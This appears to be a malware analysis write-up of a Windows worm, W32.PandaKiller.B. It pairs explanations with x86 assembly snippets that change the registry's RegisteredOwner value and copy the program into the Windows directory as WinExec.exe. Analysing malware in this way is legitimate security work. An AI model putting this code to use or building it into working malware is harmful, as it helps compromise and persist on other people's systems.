 
Here is the structured analysis of **W32.PandaKiller.B**, illustrating its operations with corresponding assembly code snippets.

----------

## **1. Registry Modification: Changing Registered Owner**

The malware modifies the **Windows registered owner** to `"PandaKiller"`.


```assembly
push offset l
push offset p
push 0
push 1F0000h + 1 + 2h
push 0
push 0
push 0
push offset CLE
push 80000002h                  ; HKEY_LOCAL_MACHINE
call RegCreateKeyExA

push 05h
push offset DONNEE              ; "PandaKiller"
push 01h
push 0
push offset NOM                 ; RegisteredOwner
push p
call RegSetValueExA             ; Modify registry value

push 0
call RegCloseKey                ; Close registry
```

----------

## **2. Self-Copying to %windir%\WinExec.exe**

The malware copies itself to the Windows directory under the name `WinExec.exe`.


```assembly
push 00000000h
call GetModuleHandleA
push 260
push offset moi
push eax
call GetModuleFileNameA

push 260
push offset targ1
call GetWindowsDirectoryA
push offset copie1
push offset targ1
call lstrcat

push 00000000h
push offset targ1
push offset moi
call CopyFileA                  ; Copy itself to %windir%\WinExec.exe
```
